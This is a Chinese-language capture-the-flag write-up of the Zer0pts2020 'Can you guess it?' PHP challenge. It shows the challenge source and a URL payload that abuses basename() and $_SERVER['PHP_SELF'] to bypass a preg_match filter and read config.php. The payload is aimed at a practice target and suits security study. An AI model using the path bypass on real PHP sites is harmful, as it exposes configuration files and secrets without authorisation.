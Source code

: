 # [Zer0pts2020]Can you guess it?
![](<./img/Pasted image 20221225090429.png>)

---
首页长这样

![](<./img/Pasted image 20221225090448.png>)

```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

这个`guess`显然是没必要guess了，再怎么guess都guess不出来的啦（摊手）

尝试这个`source`查询的可行性
```php
if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}
```
重点是这个此地无银三百两的`$_SERVER['PHP_SELF']`到底是干啥子的

![](<./img/Pasted image 20221225095205.png>)

目的是让`basename($_SERVER['PHP_SELF'])`为`config.php`

![](<./img/Pasted image 20221225095410.png>)

开头的过滤
```php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
```
匹配`config.php`和后面任意多个`/`到行尾

![](<./img/Pasted image 20221225102919.png>)

[默认区域设置中，basename 会忽略开头的非ASCII字符](https://bugs.php.net/bug.php?id=62119)

构造`payload`
```php
/index.php/config.php?source
```

利用`basename`函数的问题尝试修改，以绕过`preg_match`
```php
/index.php/config.php/哀?source
```

```php
<?php
define('FLAG', 'flag{d26cb9ed-4893-418c-a451-e306c00ead33}');
```
